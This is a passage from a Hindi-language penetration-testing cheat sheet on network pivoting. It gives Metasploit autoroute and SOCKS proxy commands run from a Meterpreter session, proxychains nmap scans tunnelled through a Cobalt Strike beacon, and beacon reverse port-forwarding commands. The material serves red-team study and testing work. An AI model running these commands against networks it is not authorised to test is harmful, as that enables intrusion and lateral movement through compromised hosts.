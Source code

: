 ```bash
background #meterpreter session
use post/multi/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks_proxy
set VERSION 4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
## Cobalt Strike

### SOCKS प्रॉक्सी

टीमसर्वर में एक पोर्ट खोलें जो सभी इंटरफेस में सुन रहा हो जिसे **बीकन के माध्यम से ट्रैफ़िक रूट करने के लिए** उपयोग किया जा सके।
```bash
beacon> socks 1080
[+] started SOCKS4a server on: 1080

# Set port 1080 as proxy server in proxychains.conf
proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```
### rPort2Port

{% hint style="warning" %}
इस मामले में, **पोर्ट बीकन होस्ट में खोला जाता है**, टीम सर्वर में नहीं और ट्रैफ़िक टीम सर्वर को भेजा जाता है और वहां से निर्दिष्ट होस्ट:पोर्ट पर भेजा जाता है।
{% endhint %}
```bash
rportfwd [bind port] [forward host] [forward port]
rportfwd stop [bind port]
```
To note:

* Beacon का रिवर्स पोर्ट फॉरवर्ड **टीम सर्वर के लिए ट्रैफ़िक टनल करने के लिए डिज़ाइन किया गया है, व्यक्तिगत मशीनों के बीच रिले करने के लिए नहीं**।
* ट्रैफ़िक **बीकन के C2 ट्रैफ़िक के भीतर टनल किया जाता है**, जिसमें P2P लिंक शामिल हैं।
* **उच्च पोर्ट पर रिवर्स पोर्ट फॉरवर्ड बनाने के लिए प्रशासनिक विशेषाधिकारों की आवश्यकता नहीं है**।

### rPort2Port local

{% hint style="warning" %}
इस मामले में, **पोर्ट बीकन होस्ट में खोला जाता है**, टीम सर्वर में नहीं और **ट्रैफ़िक को कोबाल्ट स्ट्राइक क्लाइंट** (टीम सर्वर को नहीं) पर भेजा जाता है और वहां से निर्दिष्ट होस्ट:पोर्ट पर भेजा जाता है।
{% endhint %}
```
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]
```
## reGeorg
